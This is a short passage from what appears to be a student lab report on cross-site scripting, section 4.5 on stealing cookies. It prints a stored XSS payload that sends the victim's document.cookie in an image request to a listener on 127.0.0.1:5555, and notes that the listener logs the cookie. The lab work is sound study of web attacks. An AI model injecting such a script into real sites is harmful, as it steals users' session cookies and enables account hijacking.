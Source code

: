   ![1588007990287](assets/1588007990287.png)

### 4.5 Stealing Cookies from the Victim’s Machine [4 Marks]

* The code appended to the profile

  ```
  <script>
  	document.write('<img src=http://127.0.0.1:5555?c=' + escape(document.cookie) + ' >'); 
  </script>
  ```

* Observation: The TCP server program can detect the cookie and print the value as shown below

  ![1588008413064](assets/1588008413064.png)

